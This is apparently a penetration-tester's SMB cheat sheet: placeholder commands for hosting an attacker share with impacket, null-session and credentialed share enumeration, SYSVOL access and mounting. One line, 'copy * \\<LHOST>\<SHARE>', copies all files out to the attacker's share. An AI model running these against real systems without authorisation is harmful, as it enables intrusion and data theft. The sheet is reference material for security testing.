 ```


```


**smb**


```
#smb
sudo impacket-smbserver <SHARE> ./

sudo impacket-smbserver <SHARE> . -smb2support

copy * \\<LHOST>\<SHARE>


smbclient -L \\<RHOST>\ -N

smbclient -L //<RHOST>/ -N

smbclient -L ////<RHOST>/ -N

smbclient -U "<USERNAME>" -L \\\\<RHOST>\\

smbclient -L //<RHOST>// -U <USERNAME>%<PASSWORD>

smbclient //<RHOST>/SYSVOL -U <USERNAME>%<PASSWORD>

smbclient "\\\\<RHOST>\<SHARE>"

smbclient \\\\<RHOST>\\<SHARE> -U '<USERNAME>' --socket-options='TCP_NODELAY IPTOS_LOWDELAY SO_KEEPALIVE SO_RCVBUF=131072 SO_SNDBUF=131072' -t 40000

smbclient --no-pass //<RHOST>/<SHARE>

mount.cifs //<RHOST>/<SHARE> /mnt/remote

guestmount --add '/<MOUNTPOINT>/<DIRECTORY/FILE>' --inspector --ro /mnt/<MOUNT> -v

```